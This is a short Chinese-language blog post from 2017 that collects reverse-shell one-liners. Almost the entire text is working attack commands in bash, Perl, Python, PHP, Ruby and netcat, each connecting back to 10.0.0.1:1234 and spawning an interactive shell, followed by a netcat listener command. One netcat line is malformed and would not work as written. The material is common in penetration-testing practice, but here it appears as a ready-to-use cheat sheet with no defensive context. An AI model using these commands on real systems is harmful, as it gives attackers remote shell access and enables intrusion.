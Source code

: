 Title: 反弹shell总结
Date: 2017-05-27 14:20
Modified: 2017-05-27 14:20
Category: 安全
Tags: 反弹shell
Slug: K4
Authors: nJcx
Summary: 反弹shell总结



#### 汇总

```bash

bash -i >& /dev/tcp/10.0.0.1/1234 0>&1

```

```perl

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

```python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

```php

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

```

```php
php -r 'exec("/bin/bash -i >& /dev/tcp/10.0.0.1/1234")'
```

```ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

```

```bash

nc -e /bin/sh 10.0.0.1 1234

```

如果nc不支持-e，

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

```

```bash
nc 10.0.0.1 6666|/bin/bash|10.0.0.1 1234

```

在带有公网的机器上开启监听

```bash

nc -nvlp 1234

```